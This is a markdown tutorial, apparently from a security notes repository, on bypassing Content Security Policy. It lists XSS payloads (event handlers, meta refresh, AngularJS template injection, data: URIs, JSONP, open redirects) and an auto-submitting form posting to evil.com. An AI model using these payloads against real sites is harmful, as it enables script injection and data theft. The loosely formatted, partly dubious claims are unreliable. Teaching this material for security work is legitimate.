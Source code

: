#  CSP Bypass & Sandbox Escapes"
`CSP` = Content Security Policy
- A defense header websites set to control what  `JS` , `CSS`, or content can load.

  ## How a content security policy looks like
  ```js
  Content-Security-Policy: script-src 'self' https://trusted.cdn.com
  ```
This means:
> No `<script>alert(1)</script>`
> No `eval()`, no new `function()` and no `javascript:` URIs
> And allso no external scrips unless from `trusted cdn`
something like `only allow scripts from here and block the rest`

## Why youd need to bypass CSP
> If you find a vulnerable site to `XSS` but the `CSP` prevents you from dropping your payload
```js
<script>alert(1)</script>
```
Then, youll need to bypass CSP to drop your payload::
## What to do
1. Using Js functions allowed by CSP
   > If the site is strict on you using `script-src` sometimes, `style-src` or `img-src` works
   ```js
   <svg/onload=alert(1)> 
   <img src=x onerror=alert(1)>
   ```
   or
   ```js
   <meta http-equiv="refresh" content="0;url=javascript:alert(1)">
   ```
   Tells the browser to:
   - auto redirect after 0 secs
   - If `javascript:` is allowed, it will trigger an alert
3. injecting inside script templates or Angular JS templates
    ```js
    <script type="text/ng-template"> 
    {{constructor.constructor('alert(1)')()}}
    </script>
    > This works sometimes because `CSP` only blocks `raw script execution` , not template execution.
    ```
4. Abuse `data:` or `blob:` URIs if allowed
   They are inline ways of embedding scripts or files:
    ```js
   script-src data:
   ```
     Then u can inject:
   
   ```js
   <script src="data:text/javascript,alert(1)"></script>
6. Use `JSONP` or `Open Redirects`
   JSONP (JSON with Padding) is an old technique that lets you call a remote API and get JS returned directly like this:
   ```js
   <script src="https://trusted.com/api?callback=alert"></script>
  ``` ```
  If the site reflects your call back param like:
  ```js
  alert({"data":"someData"});
  ```
  Or If `CSP` allows `script-src *.trusted.com`, this works like gold
  > Open Redirect
    It's when a trusted domain (that CSP allows) lets you redirect anywhere using a param:
    ```js
    https://trusted.com/redirect?to=https://attacker.com
    ```
    Then you inject:
    ```js
    <script src="https://trusted.com/redirect?to=javascript:alert(1)"></script>
    ```
7. Bypass Sandbox with form submission
```js
<form action="https://evil.com" method="POST">
  <input type="submit" id="send">
</form>

<script>
  document.getElementById("send").click();
</script>
